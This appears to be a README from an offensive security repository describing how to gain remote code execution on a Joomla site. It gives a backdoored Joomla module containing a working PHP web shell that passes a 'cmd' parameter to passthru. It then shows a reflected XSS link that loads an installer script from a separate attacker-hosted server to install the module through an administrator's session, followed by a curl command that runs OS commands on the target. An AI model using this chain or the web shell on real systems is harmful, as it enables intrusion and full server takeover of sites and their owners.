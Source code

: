 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `mod_RCE_PoC.php`

    (`mod_RCE_PoC.xml`)

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <extension type="module" version="3.8" client="site" method="upgrade">
    	<name>Joomla RCE PoC</name>
    	<creationDate>Feb 2024</creationDate>
    	<author>test</author>
    	<authorEmail>test@localhost</authorEmail>
    	<authorUrl>https://localhost</authorUrl>
    	<copyright>test</copyright>
    	<version>1.0</version>
    	<files>
    		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
    		<filename>mod_RCE_PoC.xml</filename>
    	</files>
    </extension>
    ```

    (`mod_RCE_PoC.php`)

    ```
    <?php
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create Joomla module

    ```
    zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
    ```

3. [setup exploit] change payload variable values (`installModuleJoomla.js`)

    `exploitURL` - URL of Joomla module (containing backdoor) to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/installModuleJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on values specified in installed module

8. [uninstall module] uninstall module via GUI

    *Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
    </picture>
  </kbd>
</p>
